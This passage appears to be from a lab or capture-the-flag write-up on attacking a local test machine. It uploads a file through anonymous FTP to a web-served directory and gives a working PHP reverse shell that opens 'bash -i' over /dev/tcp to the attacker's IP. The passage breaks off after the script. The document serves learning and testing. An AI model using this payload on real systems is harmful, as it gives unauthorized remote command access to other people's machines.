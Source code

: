 I found a directory called **/files**.

*If you add /files at the end of the IP address in browser address bar you will see a list of files on the machine.*

![files](/pic/files.png)


**Trying to send a test file via ftp**

Because anonymous login was allowed, I tried to send a file to the machine via ftp using anonymous credentials.

```
ftp 192.168.1.209
Connected to 192.168.1.209.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.209]
Name (192.168.1.209:ingvar): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put HelloWorld.html 
local: HelloWorld.html remote: HelloWorld.html
229 Entering Extended Passive Mode (|||62549|)
150 Opening BINARY mode data connection for HelloWorld.html
100% |**********************************************************************************************************************************************************************************|   227        4.41 MiB/s    00:00 ETA
226 Transfer complete
227 bytes sent in 00:00 (262.34 KiB/s)
```

Transfer was successful. I could see the file in the /files directory.

![hello](/pic/Hello.png)

#### 4. Getting root access via reverse shell

I now had access to the machine via ftp, but still needed access to the root. 

I did some reading and found reverse shell. A reverse shell is a method of gaining remote command-line access to a target machine by having that machine connect back to the attacker's machine. It is a common technique in both legitimate penetration testing and malicious hacking and is favored because it can bypass many firewall restrictions that block incoming connections.

Now that I knew reverse shell was possible, I created a reverse shell script using the almighty internet and uploaded it to the machine.

```
<?php
$ip = '192.168.1.182';  // Attackers IP (yours)
$port = 1234;       // Change this to the desired port number
$shell = "/bin/bash -c 'bash -i >& /dev/tcp/{$ip}/{$port} 0>&1'";
exec($shell);
echo "Reverse shell completed";
?>
```
